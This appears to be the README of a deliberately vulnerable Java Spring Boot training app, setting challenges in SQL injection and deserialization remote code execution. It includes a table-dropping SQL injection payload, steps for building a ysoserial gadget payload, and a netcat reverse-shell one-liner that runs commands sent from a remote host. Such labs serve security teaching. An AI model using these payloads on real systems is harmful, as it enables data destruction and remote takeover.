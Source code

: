 # Java vulnerabilities

This is a sandbox containing multiple flaws, including SQL injection and RCE (Remote Code Execution) vulnerabilities.

## How to run

This is a spring boot app using Maven, to run it :

```bash
mvn spring-boot:run
```

It will start a web sever listening to http://localhost:8080


## sql-injection

To use the app normally, register a new user and use the home page to query the database in an authenticated manner.

**But**, the login form is vulnerable to SQL injection, try to break the app !

ℹ️ Hint: `toto'; DROP TABLE "user"; --` 💥

But you can also become an official user without following the registration process 🕶️.

## RCE (Remote Code Execution)

The application uses the Java Serialization, which is known to be the source of the most violent vulnerabilities when applied to foreign inputs.

Your job, if you accept it, is to:

* Find where to insert a malicious payload
* Find the proper gadget chain to use regarding the project dependencies (`mvn dependency:tree`)
* Generate a malicious payload with [ysoserial](https://github.com/frohoff/ysoserial), for this, you will need an older version of Java, such as Java 11
* Send the payload to the app and verify that you can execute an arbitrary command (or many) on the host system
* Try smarter payloads
    * from starting some existing non-intrusive process such as `calc.exe` (but who runs production on Windows ?)
    * to establishing a TCP connection to a remote server, which will allow a hacker to execute many arbitrary commands  
      ℹ️ Hint: `f=$(mktemp -u --suffix=.fifo); mkfifo $f; while IFS= read -r line; do eval "$line" 2>&1; echo -ne \\0; done < $f | nc $host $port > $f`

![rce](rce.png)
